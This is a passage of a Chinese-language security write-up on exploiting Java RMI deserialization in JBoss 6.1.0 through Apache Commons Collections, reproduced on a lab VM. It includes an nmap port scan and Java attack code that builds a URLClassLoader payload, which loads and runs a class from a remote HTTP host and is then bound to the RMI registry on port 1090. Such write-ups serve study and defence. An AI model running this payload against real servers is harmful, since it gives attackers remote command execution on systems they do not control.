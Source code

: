 这里说明了应用程序在使用RMI机制时，会存在反序列化的问题。如果恰好使用了有缺陷的第三方库，那就可以远程命令执行了。接下来，看看实际场景中的相关漏洞。

0x03 JBoss RMI攻击利用
==================

* * *

JBOSS符合我们在上述讨论中的两个条件：

*   它使用了RMI机制进行信息通信，端口1099使用了`jndi`和端口1090则是RMI服务端口。
*   并且包含了`Apache Commons Collections`第三方库。于是就可以说存在远程命令执行漏洞了。

在绿盟科技的文章中，提到了JBOSS中存在使用RMI机制的问题，可以在JMXInvoker删除的情况下获取shell。 于是可以这样重现命令执行。

使用如下命令启动jboss，默认就会对外开放所有端口。当然10.10.10.135代表本机ip。

```
./run.sh -b 10.10.10.135  

```

首先，扫描一下jboss服务器端口，这里我使用的是`jboss-6.1.0.Final`版本，安装在Ubuntu虚拟机中。使用nmap扫描结果如下：

```
1090/tcp open  ff-fms
1091/tcp open  ff-sm
1098/tcp open  rmiactivation
1099/tcp open  rmiregistry
4446/tcp open  n1-fwp
5500/tcp open  hotline
8009/tcp open  ajp13
8080/tcp open  http-proxy
8083/tcp open  us-srv  

```

发现1090端口和1099端口对外开放了。也就是说RMI服务对外开放了。

在这里说一下，在jboss利用上面，按照原文的代码利用，没有重现成功。其中有payload的问题，所以使用了我自己写的封装好的payload，比较方便。另外，我们一开始认为攻击1099端口，我的好同学研究发现应该是1090端口，这才攻击成功。

于是有了以下攻击代码：

```
Object instance = PayloadGeneration.generateURLClassLoaderPayload("http://******:8080/java/", "exploit.ErrorBaseExec", "do_exec", "pwd"); 

InvocationHandler h = (InvocationHandler) instance;
Remote r = Remote.class.cast(Proxy.newProxyInstance(Remote.class.getClassLoader(),new Class[]{Remote.class},h));
Registry registry = LocateRegistry.getRegistry("10.10.10.135", 1090);
try{
    registry.bind("pwned", r); // r is remote obj
}
catch (Throwable e) 
{
    e.printStackTrace();
}   

```
